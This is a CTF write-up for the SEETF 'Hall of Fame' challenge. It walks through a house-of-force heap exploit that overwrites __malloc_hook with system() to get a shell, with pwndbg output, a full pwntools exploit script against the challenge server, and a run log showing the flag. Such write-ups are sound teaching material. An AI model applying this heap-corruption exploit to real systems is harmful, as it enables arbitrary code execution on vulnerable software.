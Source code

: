 
# Hall of Fame

## Challenge

- [hall_of_fame](hall_of_fame)
- [hall_of_fame_patched](hall_of_fame_patched) * patched with [pwninint](https://github.com/io12/pwninit)

## Solution

The binary suffers from a vulnerability that can be exploited via the ``house of force`` technique. 

```
pwndbg> vis_heap_chunks
0xfc0250        0x0000000000000000      0x0000000000000021      ........!.......
0xfc0260        0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
0xfc0270        0x6161616161616161      0xfffffffffffffff1      aaaaaaaa.......
```

We noticed that sending in 0x16 "a"s + p64(0xfffffffffffffff1) allows us to overwrite the top chunk's size field.

```python
info("Setting Top Chunk Size == 0xfffffffffffffff1 ")
malloc(16, b'a' * 24 + p64(0xfffffffffffffff1))
```

We confirm this by running the ``pwndbg`` plugin ``top_chunk``, which shows the new ``Size: 0xfffffffffffffff1``

```
pwndbg> top_chunk 
Top chunk
Addr: 0xfc0270
Size: 0xfffffffffffffff1
```

Next, we need to set the top chunk address to 0x10 bytes before the ``__mallock_hook``.

```python
info("Setting Top Chunk Addr = __mallock_hook - 0x10")
malloc_hook = libc.sym['__malloc_hook']
distance = malloc_hook - heap - 0x20 - 0x10 
malloc(distance, b"Y")
```

We confirm in GDB that we've reached this by checking the ``top_chunk Addr`` and noticed that it is 0x10 bytes before the ``__malloc_hook``

```
pwndbg> top_chunk 
Top chunk
Addr: 0x7fcd33e8dc20
Size: 0xffff80e12d69d641

pwndbg> x/10i 0x7fcd33e8dc20+0x10
...
0x7fcd33e8dc30 <__malloc_hook>:      add    BYTE PTR [rax],al
```

Finally, we will overwrite the ``__malloc_hook`` address with the address of glibc ``system()`` call.

```python
info("overwriting __malloc_hook with libc.sym.system")
malloc(24, p64(libc.sym.system))
```

Checking the address of system, we see it is at ``0x7fcd33af1420``. Further, checking the ``__malloc_hook``, we see we have overwritten it with the address of ``system``.

```
pwndbg> dq &__libc_system 
00007fcd33af1420     fa66e90b74ff8548 0000441f0f66ffff

pwndbg> dq &__malloc_hook
00007fcd33e8dc30     00007fcd33af1420 616161616161000a
```

We can finalize the exploit by calling ``malloc("/bin/sh",'')``, which now calls ``system("/bin/sh")`` instead.

```
info("Calling malloc(\"/bin/sh\"), which is now system(\"/bin/sh\")")
malloc(next(libc.search(b"/bin/sh")), b"")
```

Our final script is 

```python
from pwn import *

binary=args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
libc = ELF(e.runpath + b"/libc.so.6")

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('fun.chall.seetf.sg', '50004')
    else:
        return process(e.path)

p = start()

def malloc(sz,data):
   p.recvuntil(b'Choose>')
   p.sendline(b'1')
   p.recvuntil(b'How many points did this person score? >')
   p.sendline(b"%i" %sz)
   p.sendline(data)

def leak():
   p.recvuntil(b'Choose>')
   p.sendline(b'2')
   p.recvuntil(b'The position of latest addition is at ')
   heap=int(p.recvline().strip(b'\n'),16)
   info("Heap = %s" %hex(heap))
   p.recvuntil(b'The position of PUTS is at ')
   libc.address=int(p.recvline().strip(b'\n'),16)-libc.sym['puts']
   info("Libc = %s" %hex(libc.address))
   return heap


info("Setting Top Chunk Size == 0xfffffffffffffff1 ")
malloc(16, b'a' * 24 + p64(0xfffffffffffffff1))

info("Leaking Heap, Libc.Address")
heap=leak()

info("Setting Top Chunk Addr = __mallock_hook - 0x10")
malloc_hook = libc.sym['__malloc_hook']
distance = malloc_hook - heap - 0x20 - 0x10 
malloc(distance, b"Y")

info("overwriting __malloc_hook with libc.sym.system")
malloc(24, p64(libc.sym.system))

info("Calling malloc(\"/bin/sh\"), which is now system(\"/bin/sh\")")
malloc(next(libc.search(b"/bin/sh")), b"")

p.interactive()

```


Running this yields the flag

```
└─# python3 pwn-hof.py BIN=./hall_of_fame_patched REMOTE
[*] '/root/workspace/pwn_hall_of_fame/hall_of_fame_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] b'/root/workspace/pwn_hall_of_fame/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to fun.chall.seetf.sg on port 50004: Done
[*] Setting Top Chunk Size == 0xfffffffffffffff1 
[*] Leaking Heap, Libc.Address
[*] Heap = 0x13b0260
[*] Libc = 0x7f14e456d000
[*] Setting Top Chunk Addr = __mallock_hook - 0x10
[*] overwriting __malloc_hook with libc.sym.system
[*] Calling malloc("/bin/sh"), which is now system("/bin/sh")
[*] Switching to interactive mode

$ cat /home/hall_of_famer/flag.txt
SEE{W3lc0mE_t0_th3_H4lL_0f_F4ME_0de280c6adb0f3da9f7ee5bd2057f8354969920c}
```	